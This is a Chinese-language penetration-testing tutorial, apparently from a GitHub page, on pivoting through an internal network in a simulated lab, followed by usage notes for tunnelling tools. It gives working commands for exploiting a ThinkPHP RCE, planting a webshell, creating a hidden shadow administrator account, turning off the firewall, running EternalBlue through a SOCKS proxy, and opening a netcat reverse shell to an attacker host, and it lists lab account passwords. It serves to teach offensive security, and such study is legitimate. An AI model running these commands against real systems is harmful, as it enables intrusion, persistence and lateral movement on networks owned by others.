# 内网知识 - 三层代理

> 本文作者：[XiDanEr](https://github.com/xidaner)
> 更新日期 2021年7月21日

---
在实战渗透中,我们经常遇到打下目标网站,然后需要进一步横向渗透的情况;本文旨在教大家如何在拿下目标一台机器之后,进行内网横穿以及端口转发


## 最常见的两种攻击拓扑






通常情况下,我们都不会动自己的网关/出口,而是购买公网 vps;如果我们有公网 vps,就可以讲上述两种拓扑进行化简






## 本次模拟环境的网络拓扑



win7 的80端口承载了一个正常的网站,双网卡模拟内外网,机器上的两个账户如下
sun\leo 123.com
sun\Administrator dc123.com(修改密码长度符合规则 Abcd1234)

内网 win7 上存在 80 端口


# 实战渗透

- 获取第一台机器的权限

    首先访问 http://192.168.8.150/ ,发现其是一个 thinkphp 的网站
    
    使用 thinkphp 扫描工具进行扫描,发现存在 ThinkPHP 5.0.22/5.1.29 RCE 漏洞
    
    执行命令,发现是 administrator 权限
    
    使用工具,写入一句话shell
    
    蚁剑连接,地址为 http://192.168.8.150/peiqi.php 密码 peiqi
    

- 权限维持

    激活 administrator 用户(极少数特殊情况,会禁用管理员用户,也可以等克隆之后直接激活克隆后的账户)
    `net user administrator /active:yes`
    添加影子账号(或者上传 mimikatz 抓取密码也行)
    `ShadowUser.exe test administrator` 前面是要添加的用户名,后面是要克隆的用户名
    
    可以看到添加的影子账号为 `test$/CNzS7Osurg`
    添加用户到远程桌面组
    `net localgroup "remote desktop users" test$ /add`
    生成代理 tunnel.php 并配置连接
    `python3 neoreg.py generate -k password`
    上传生成的 tunnel.php,进行连接
    `python3 neoreg.py -k password -u http://192.168.8.150/tunnel.php`
    
    关闭 win7 防火墙
    `netsh advfirewall set allprofiles state off`
    查看 3389 端口是否更改(由于 ShadowUser.exe 会帮我们开启3389,所以不用自己开)
    `REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber`         出来的结果是十六进制,默认为 0xd3d
    
    配置本地代理设置(/etc/proxychains.conf)
    
    远程连接
    `proxychains4 rdesktop 127.0.0.1:3389`
    
    

    - windows环境使用 Proxifier,步骤基本一致,详情看我演示

        在目标机上进行端口转发(如果无法转发,请查看Ip Helper服务是否开启)
        `netsh interface portproxy add v4tov4 listenaddress=* listenport=51167 connectaddress=192.168.8.150 connectport=3389 protocol=tcp`
        建立 tunnel 连接
        `python3 neoreg.py -k password -u http://192.168.8.150/tunnel.php`
        配置 proxifier
        
        rdp `127.0.0.1:51167` 即可
        

        - 打完之后,删除端口转发

            `netsh interface portproxy delete v4tov4 listenaddress=* listenport=51167`

    - 注意

        在实战场景中,连接到目标机前,需执行 `quser` 查看是否有人在线

- 横向渗透

    信息收集
    `ipconfig`
    `net view /domain`
    首先使用 fscan 来对内网进行扫描
    `fscan64.exe -h 192.168.25.1/24 np -o result.txt`
    扫描出内网的 192.168.25.130 存在 MS17-010 以及 web 端口 80
    
    将浏览器的代理配置成 127.0.0.1:1080 即可访问到 web 站点
    
    上传 iox.exe 进行端口代理
    在攻击机上做转发,执行如下命令
    `./iox proxy -l 8888 -l 1080`
    在目标机上执行如下命令,与攻击机的 8888 端口对接起来建立链接
    `iox.exe proxy -r 192.168.8.138:8888`
    然后使用 msf 进行利用
    ```cmd
    msfconsole
    search ms17-010
    use exploit/windows/smb/ms17_010_eternalblue
    setg Proxies socks5:127.0.0.1:1080
    set rhosts 192.168.25.130
    set payload windows/x64/meterpreter/bind_tcp
    run
    ```
    
    


# 附录

## 本次渗透所使用的工具地址

https://github.com/Lotus6/ThinkphpGUI
https://github.com/AntSwordProject/antSword/
https://github.com/An0nySec/ShadowUser
https://github.com/L-codes/Neo-reGeorg
https://github.com/shadow1ng/fscan
https://github.com/EddieIvan01/iox


## 各种代理工具的使用

### rinet

示例:   172.16.40.20(win)要远程连接到67.23.72.100(win)的3389端口,以208.88.127.99(kali)做中转

```bash
nano /etc/rinetd.conf(添加一行)
208.88.127.99 80 67.23.72.100 3389
/etc/init.d/rinetd restart
```
然后172.16.40.20(mstsc)连接208.88.127.99:80即可

### plink

- 示例

    - 208.88.127.99(kali)

        `nc -lvp 443`

    - 172.16.40.20(win)

        ```cmd
        nc64.exe -nv 208.88.127.99 443 -e cmd.exe
        plink.exe -l root -pw ubersecretpassword 208.88.127.99 -R 3390:127.0.0.1:3389
        ```

    - 208.88.127.99(kali)

        `rdesktop 127.0.0.1:3390`

### frpc

项目地址:   https://github.com/fatedier/frp

- 示例

    将 frps 及 frps.ini 放到有公网 IP 的机器上,将 frpc 及 frpc.ini 放到处于内网环境的机器上

    - 攻击机执行

        `./frps -c ./frps.ini`

        - frps.ini 配置文件

            ```ini
            [common]
            bind_port = 7000

            [rdp]
            listen_port = 6000
            auth_token = 123
            ```

    - 目标机执行

        `./frpc.exe -c frpc.ini`

        - frpc.ini配置文件为

            ```ini
            [common]
            server_addr = 208.88.127.99(公网ip)
            server_port = 7000(公网端口)

            [rdp]
            type = tcp
            # local_ip = 127.0.0.1
            local_port = 3389
            auth_token = 123
            # remote_port = 5200
            ```


### reGeorg

项目地址:   https://github.com/sensepost/reGeorg

- 示例

    - 往目标机上web目录上传

        ```
        tunnel.aspx
        tunnel.nosocket.php
        tunnel.jsp
        ```

    - 在本机上执行

        `python reGeorgSocksProxy.py -p 1081 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp`

    - 然后 proxychain 或者 proxifler(全局代理) 指定本机 1081 端口即可


### Neo-reGeorg

项目地址:   https://github.com/L-codes/Neo-reGeorg

- 示例

    - 生成tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器

        `python3 neoreg.py generate -k password`

    -  使用 neoreg.py 连接 WEB 服务器,在本地建立 socks5 代理

        `python3 neoreg.py -k password -u http://xx/tunnel.php`

    - 高阶用法

        - 支持生成的服务端,默认直接请求响应指定的页面内容(如伪装的404页面)

            ```
            python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
            python neoreg.py -k <you_password> -u <server_url> --skip
            ```

        - 如服务端 WEB,需要设置代理才能访问

            `python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080`

        - 如需 Authorization 认证和定制的 Header 或 Cookie

            `python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"`

        - 需要分散请求,可上传到多个路径上,如内存马

            `python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...`

        - 开启内网转发,应对负载均衡

            `python neoreg.py -k <you_password> -u <url> -r <redirect_url>`

        - 更多关于性能和稳定性的参数设置参考 -h 帮助信息

            - 生成服务端脚本

                `python neoreg.py generate -h`

            - 连接服务端

                `python neoreg.py -h`


### earthworm

项目地址:   https://github.com/rootkiter/EarthWorm

- 示例

    - 目标有公网IP且可任意开监听端口

        - 目标机上执行

            `./ew -s ssocksd -l 8888`

        - 攻击机直接连接目标机的8888端口,即可使用目标机提供的代理

    - 目标无公网IP

        - 攻击机上执行

            `./ew -s rcsocks -l 1080 -e 8888`

        - 目标机上执行

            `./ew -s rssocks -d 1.1.1.1 -e 8888`
            1.1.1.1 为攻击机的公网IP

        - 通过访问 1.1.1.1 的 1080 端口即可代理到内网

    - 目标机A有公网IP,目标机B无公网IP且无法访问公网,目标机A能访问目标机B

        - 在主机B上执行

            `./ew -s ssocksd -l 9999`

        - 在主机A上执行

            `./ew -s lcx_tran -l 1080 -f 192.168.1.1 -g 9999`
            192.168.1.1为B主机IP

        - 通过访问A主机的 1080 端口来使用 B主机提供的 socks5 代理

    - 目标机A,B均无公网IP,A和B互通,A可通公网但无法访问特定资源,B可访问特定资源但不通公网

        - 攻击机执行(有公网IP)

            `./ew -s lcx_listen -l 1080 -e 8888`

        - 目标机B执行

            `./ew -s ssocksd -l 9999`

